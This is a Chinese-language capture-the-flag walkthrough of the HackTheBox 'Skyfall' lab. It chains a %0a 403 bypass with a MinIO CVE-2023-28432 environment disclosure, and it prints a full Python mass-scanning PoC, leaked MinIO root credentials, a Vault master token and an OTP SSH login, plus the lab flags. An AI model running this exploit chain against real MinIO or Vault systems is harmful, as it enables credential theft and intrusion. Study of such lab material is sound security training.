

nmap结果

```bash
┌──(kali㉿kali)-[~/htb/Skyfall]
└─$ nmap -sC -sV --min-rate 10000 10.10.11.254 -oN nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-06 22:07 EST
Nmap scan report for 10.10.11.254 (10.10.11.254)
Host is up (0.28s latency).
Not shown: 873 filtered tcp ports (no-response), 125 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.23 seconds

```


找到一个demo按钮

发现跳转到demo.skyfall.htb

将其加入hosts文件后访问


提示有默认登录guest，进行登录


发现File有403限制，其他选项也存在403


加入%0a绕过


发现域名


```
http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster
```

将prd23-s3-backend.skyfall.htb加入hosts


minio v2 CVE



POC ：

https://github.com/MzzdToT/CVE-2023-28432

```python
import requests
import sys
import urllib3
from argparse import ArgumentParser
import threadpool
from urllib import parse
from time import time
import random
#app="minio"

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
filename = sys.argv[1]
url_list=[]

def get_ua():
	first_num = random.randint(55, 62)
	third_num = random.randint(0, 3200)
	fourth_num = random.randint(0, 140)
	os_type = [
		'(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)',
		'(Macintosh; Intel Mac OS X 10_12_6)'
	]
	chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)

	ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
				   '(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
				  )
	return ua

proxies={'http': 'http://127.0.0.1:8080',
        'https': 'https://127.0.0.1:8080'}

def wirte_targets(vurl, filename):
	with open(filename, "a+") as f:
		f.write(vurl + "\n")

#poc
def check_url(url):
	url=parse.urlparse(url)
	hostname  = url.hostname
	url=url.scheme + '://' + url.netloc
	vulnurl=url + "/minio/bootstrap/v1/verify"
	headers = {
		'User-Agent': get_ua(),
		"host":hostname,
		"Content-Type": "application/x-www-form-urlencoded"
	}
	data=""
	try:
		res = requests.post(vulnurl, verify=False, allow_redirects=False, headers=headers,data=data ,timeout=5)
		if res.status_code == 200 and "MinioEn" in res.text:
			# print(res.text)
			print("\033[32m[+]{} is vulnerable\033[0m".format(url))
			wirte_targets(vulnurl,"vuln.txt")
		else:
			print("\033[34m[-]{} not vulnerable.\033[0m".format(url))
	except Exception as e:
		print("\033[34m[!]{} request false.\033[0m".format(url))
		pass

#多线程
def multithreading(url_list, pools=5):
	works = []
	for i in url_list:
		# works.append((func_params, None))
		works.append(i)
	# print(works)
	pool = threadpool.ThreadPool(pools)
	reqs = threadpool.makeRequests(check_url, works)
	[pool.putRequest(req) for req in reqs]
	pool.wait()


if __name__ == '__main__':
	arg=ArgumentParser(description='check_url By m2')
	arg.add_argument("-u",
						"--url",
						help="Target URL; Example:http://ip:port")
	arg.add_argument("-f",
						"--file",
						help="Target URL; Example:url.txt")
	args=arg.parse_args()
	url=args.url
	filename=args.file
	print("[+]任务开始.....")
	start=time()
	if url != None and filename == None:
		check_url(url)
	elif url == None and filename != None:
		for i in open(filename):
			i=i.replace('\n','')
			url_list.append(i)
		multithreading(url_list,10)
	end=time()
	print('任务完成,用时%ds.' %(end-start))

```


Burp post :http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify


```
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
```

```
"MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0"
"MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww"
```

安装minIO

```
curl https://dl.min.io/client/mc/release/linux-amd64/mc \
  --create-dirs \
  -o $HOME/minio-binaries/mc

chmod +x $HOME/minio-binaries/mc
export PATH=$PATH:$HOME/minio-binaries/

mc --help
```


运行minIO客户端


下载v2的gz备份文件


解压


bashrc中


https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords?source=post_page-----73c18ca3aa91--------------------------------


安装vault后登录

```bash
wget -O- https://apt.releases.hashicorp.com/gpg | sudo gpg --dearmor -o /usr/share/keyrings/hashicorp-archive-keyring.gpg
echo "deb [signed-by=/usr/share/keyrings/hashicorp-archive-keyring.gpg] https://apt.releases.hashicorp.com $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/hashicorp.list
sudo apt update && sudo apt install vault
```


用OTP作为SSH密码登录


```
8cf6d662d3745b57874ee6a010c065c5
```

Root


```
askyy@skyfall:~$ cat debug.log
2024/02/10 04:51:48 Initializing logger...
2024/02/10 04:51:48 Reading: /etc/vault-unseal.yaml
2024/02/10 04:51:48 Security Risk!
2024/02/10 04:51:48 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/02/10 04:51:48 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/02/10 04:51:48 Check interval: 5s
2024/02/10 04:51:48 Max checks: 5
2024/02/10 04:51:48 Establishing connection to Vault...
2024/02/10 04:51:48 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/02/10 04:51:48 Checking seal status
2024/02/10 04:51:48 Vault sealed: false
```


```
a8ec5e81290ada100054ee70fa769a04
```


